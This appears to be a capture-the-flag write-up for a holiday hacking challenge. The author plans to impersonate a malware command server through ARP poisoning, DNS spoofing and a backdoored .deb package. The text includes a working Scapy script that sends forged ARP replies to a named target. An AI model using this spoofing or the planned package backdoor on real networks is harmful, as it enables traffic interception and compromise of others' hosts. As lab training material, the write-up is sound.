 ...and they just keep on coming.

So by now I'm guessing that we have to masquerade as the C2 machine for Jacks Malware. I'm guessing that we'll need to...

1 - Edit and run the arp_resp.py script to respond to the ARP request with our details, poisoning the other devices ARP cache and making it believe we are the C2 machine. At this point we will probably start seeing other types of traffic.
2- Edit the dns_resp.py script to respond to DNS requests to point the requesting host to a local webserver we run. I'm guessing we'll be running the web server in the /dist directory so that the malware can access the deb files in there. 
3 - ?


Now the goal here is to "get command line access back" to 10.6.6.35. I'm guessing that this will be the host we will be communicating with. The flag we're looking for is in /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Probably on that host. 

So if the steps above are correct then maybe for step 3 we need to backdoor one of the deb files that the host will presumably download.

We can confirm with the ping tool that arp_requester.guestnet0.kringlecastle.com is in fact 10.6.6.35


winsrvdc2019.guestnet0.kringlecastle.com is actually at 10.6.6.53

Right, lets set this up.

Our MAC is 02:42:0a:06:00:02 (could also call get_if_hwaddr() in the script)

Our IP is 10.6.0.2

Target MAC is 4c:24:57:ab:ed:84

Target IP is 10.6.6.35

The modified arp_resp.py file is as follows:

```
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

#Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
#Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

def handle_arp_packets(packet):
    #if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src="02:42:0a:06:00:02")

        arp_response = ARP(pdst="4c:24:57:ab:ed:84")
        arp_response.op = 2
        #arp_response.plen = 99999
        #arp_response.hwlen = 99999
        #arp_response.ptype = 99999
        #arp_response.hwtype = 99999

        arp_response.hwsrc = "02:42:0a:06:00:02"
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = "4c:24:57:ab:ed:84"
        arp_response.pdst = "10.6.6.35"

        response = ether_resp/arp_response

        sendp(response, iface="eth0")
```